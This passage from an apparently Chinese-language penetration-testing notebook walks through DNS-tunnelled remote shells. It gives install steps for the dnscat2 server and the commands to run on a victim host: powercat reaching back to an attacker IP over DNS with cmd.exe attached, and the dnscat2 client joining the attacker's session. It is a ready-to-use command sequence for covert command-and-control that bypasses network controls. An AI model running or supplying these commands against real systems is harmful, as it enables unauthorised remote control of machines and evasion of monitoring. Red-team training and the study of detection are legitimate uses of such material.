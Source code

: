   #### Dnscat2
	安装dnscat2
	>apt-get -y install ruby-dev git make g++
	>gem install bundler
	>git clone https://github.com/iagox86/dnscat2.git
	>cd dnscat2/server
	>bundle install
	执行
	>ruby dnscat2.rb abc.com -e open --no-cache
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/195.png)
  #### Powercat
	靶机执行
	>powercat -c 192.168.0.108 -v -dns abc.com -e cmd.exe
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/196.png)

	dnscat2执行
	>session -i 1进入会话
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/197.png)
  #### Dnscat2 exe
	Linux
	https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-x86.tar.bz2 https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-x64.tar.bz2
	https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-win32.zip
	攻击机执行
	>ruby dnscat2.rb --dns "domain=zone.com,host=192.168.0.108" --no-cache
	靶机执行
	>dnscat2-v0.07-client-win32.exe --dns server=192.168.0.108
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/198.png)

	攻击机执行
	>session -i [ID]进入会话
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/199.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/200.png)